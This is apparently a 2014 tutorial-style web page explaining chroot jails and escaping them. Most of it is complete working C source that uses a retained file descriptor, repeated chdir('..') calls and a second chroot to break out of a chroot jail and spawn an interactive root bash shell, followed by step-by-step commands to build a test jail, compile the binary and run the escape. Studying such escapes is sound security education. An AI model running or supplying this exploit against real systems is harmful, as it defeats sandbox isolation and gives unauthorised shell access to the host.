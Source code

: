 <h1 class="header">Chroot Escaping</h1>
</br>
*09 November 2014* | [Revision History](https://github.com/sevaivanov/kedfilms/commits/master/frontend/static/frontend/md/hack-the-planet/chroot-escape.md)

FD:

A [F]ile [D]escriptor is a pointer to a file.

Each Process has a working directory.
</br></br>

Chroot():

Says to everyone:  Hey, it's the new root!

It changes **sometimes** their working directory to this new root.

Everyone (processes) is locked in this place & not aware of a higher location.


# Using C & gcc

Tested on Debian Wheezy 3.2

Jargon:

1. Real Root : System root
2. Mother Root : Where we are locked, chrooted into.
3. Sub Jail: A new jail that we create in the Mother Root.

## chroot-escape.c

      #include <sys/stat.h>
        #include <unistd.h>
        #include <fcntl.h>

        // printf()
        #include <stdio.h>
        // exit()
        #include <stdlib.h>

        int main()
        {
            int jail_fd;

            /*
                Not root? Set the effective user id to 0, root.
                Priviledged status depends only on the effective UID      
                http://unixpapa.com/incnote/setuid.html
            */
            if (getuid() != 0)
            {
                // printf("%d", geteuid());
                setuid(0);
            }

            /*
                Return a FD of current jail directory (Mother Jail).
                It's a pointer to the mother jail.
                Original chroot() call did not close his FD.
            */
            jail_fd = open(".", O_RDONLY);

            /*
                We need to go inside a Sub Jail created by us.
                You can NOT close your Mother Jail while inside.
            */
            mkdir("cell", 0755);
            chroot("cell");

            /*
                Let's go outside of our new jail to the motherjail.
                Everyone thinks our root is the [yourjail/].
                Since we're root, the system can't stop us.
                We have to refer by a FD because we don't know its path.
            */
            fchdir(jail_fd);

            /*
                Let's close the FD.
                All of the resources of this FD will be freed.
                The mother jail is shut down!
                We're outside of the Sub Jail created by us somewhere we don't know.
            */
            close(jail_fd);

            /*
                Let's go higher & higher to touch the skies!
                Going too high will be interpreted as going to root.
            */
            int i;
            for(i = 0; i < 1000; i++)
            {
                chdir("..");
            }

            // Chroot to the real root place.
            chroot(".");

            // Run an interactive shell from there.
            return execl("/bin/bash", "-i", NULL);
        }


Inspired from [filippo.io](https://filippo.io/escaping-a-chroot-jail-slash-1)

## How to test:

1. Make a jail

        apt-get install binutils debootstrap
          mkdir -p /jails/yourjail
          debootstrap --arch i386 wheezy /jails/yourjail http://http.debian.net/debian
          touch /jails/yourjail/IN_JAIL_NOW

    Inspired from [debian docs](https://wiki.debian.org/chroot).

2. Compile to executable into yourjail

        gcc -static -o jails/yourjail/escape jails/chroot-escape.c

3. Chroot into yourjail

        chroot /jails/yourjail

4. Escape

        ./escape && ls

<p class="footer"></p>